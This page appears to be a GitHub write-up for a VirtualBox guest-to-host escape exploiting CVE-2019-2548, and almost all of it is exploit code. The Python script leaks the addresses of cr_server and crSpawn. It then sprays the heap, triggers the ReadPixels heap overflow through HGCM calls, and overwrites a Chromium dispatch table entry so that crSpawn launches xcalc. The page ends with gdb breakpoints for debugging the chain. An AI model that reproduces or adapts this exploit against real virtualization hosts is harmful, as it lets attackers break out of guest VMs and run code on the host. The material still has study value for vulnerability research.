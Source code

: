 ```python
# find cr_server and crSpawn from leak addr
    cr_server, crSpawn = read_addr(res)
    cr_server = 0x7fa68e85a700
    crServerDispatchBoundsInfoCR = cr_server + 0xae98
    crSpawn = 0x7fa68e324510
    print("cr_server addr : (offset : 0x22edd8)")
    print hex(cr_server)
    print("crSpawn addr : (offset : 0x307418)")
    print hex(crSpawn)
    print("crServerDispatchBoundsInfoCR Table addr : (offset : cr_server + 0xae98, 0x2d7650)")
    print hex(crServerDispatchBoundsInfoCR)

# heap spray
    heapSpray(client)
    print("heapSpray end")

# Trigger to CVE-2019-2548
    msg = make_readpixels_msg(0xdeadbeef, 0xffffffff) # 0x20 heap buffer change
    crmsg(client, msg)

# overwrite uid, uisize, pdata
    hgcm_call(client, SHCRGL_GUEST_FN_WRITE_BUFFER, [0xdeadbeef, 0xffffffff, 0x30, svcfull_msg(crServerDispatchBoundsInfoCR)])
    print("overwrite crServerDispatchBoundsInfoCR Table addrheap (offset : 0x30)")
    msg = leak_msg(0x30)

# overwrite crServerDispatchBoundsInfo to crSpawn
    hgcm_call(client, SHCRGL_GUEST_FN_WRITE_BUFFER, [0xdeadcafe, 0xeeeeeeee, 0, pack("<Q", crSpawn)])
    print("overwrite crServerDispatchBoundsInfoCR in heap to crSpawn")
    msg = leak_msg(0x30)

# xcalc call
    msg = xcalc(crSpawn)
    crmsg(client, msg)
```
---
## Break Point

### address leak breakpoint
`break *crUnpackExtendGetAttribLocation+49`

### other breakpoint
`break crServerDispatchReadPixels`

`break *crServerDispatchReadPixels +302`

`break *cr_unpackDispatch + 216`

`break *crServerDispatchBoundsInfoCR`
